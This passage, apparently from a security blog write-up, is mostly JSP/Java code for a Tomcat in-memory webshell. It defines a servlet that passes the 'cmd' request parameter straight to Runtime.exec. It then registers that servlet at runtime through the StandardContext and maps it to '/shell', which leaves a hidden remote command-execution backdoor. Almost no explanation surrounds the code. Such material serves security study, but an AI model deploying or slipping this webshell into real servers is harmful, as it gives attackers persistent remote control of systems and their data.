 ```java
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
 
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
 
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>
 
<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712803360359-8cb9cd11-2026-4e82-b04a-ffa3c6b262e9.png)
